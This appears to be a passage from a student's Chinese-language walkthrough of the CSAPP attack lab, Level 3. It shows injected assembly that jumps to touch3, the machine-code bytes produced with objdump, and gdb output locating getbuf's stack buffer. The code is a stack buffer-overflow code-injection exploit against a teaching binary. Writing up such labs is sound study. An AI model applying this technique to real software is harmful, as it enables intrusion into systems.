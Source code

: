    

2. 编写指令并获取对应机器指令

   ```assembly
   mov $0x5561dca8,%rdi # test栈帧空白区地址
   pushq $0x4018fa # touch3入口地址
   retq
   ```

   ```shell
   ghy@vm:/mnt/hgfs/CSAPP-Labs/Labs/Lab3-attack/target1/Level_3$ vim 3.s
   
   ghy@vm:/mnt/hgfs/CSAPP-Labs/Labs/Lab3-attack/target1/Level_3$ gcc -c 3.s
   
   ghy@vm:/mnt/hgfs/CSAPP-Labs/Labs/Lab3-attack/target1/Level_3$ ls
   3.o  3.s  cookie.txt  ctarget  hex2raw
   
   ghy@vm:/mnt/hgfs/CSAPP-Labs/Labs/Lab3-attack/target1/Level_3$ objdump -d 3.o
   
   3.o：     文件格式 elf64-x86-64
   
   
   Disassembly of section .text:
   
   0000000000000000 <.text>:
      0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
      7:	68 fa 18 40 00       	pushq  $0x4018fa
      c:	c3                   	retq
   ```

3. 确定getbuf栈帧空白区地址

   ```
   (gdb) disas
   Dump of assembler code for function getbuf:
   => 0x00000000004017a8 <+0>:	sub    $0x28,%rsp
      0x00000000004017ac <+4>:	mov    %rsp,%rdi
      0x00000000004017af <+7>:	callq  0x401a40 <Gets>
      0x00000000004017b4 <+12>:	mov    $0x1,%eax
      0x00000000004017b9 <+17>:	add    $0x28,%rsp
      0x00000000004017bd <+21>:	retq   
   End of assembler dump.
   
   (gdb) print /x $rsp
   $3 = 0x5561dca0
   
   (gdb) stepi
   14	in buf.c
   
   (gdb) print /x $rsp
   $4 = 0x5561dc78
   ```

4. 计算cookie的16进制格式
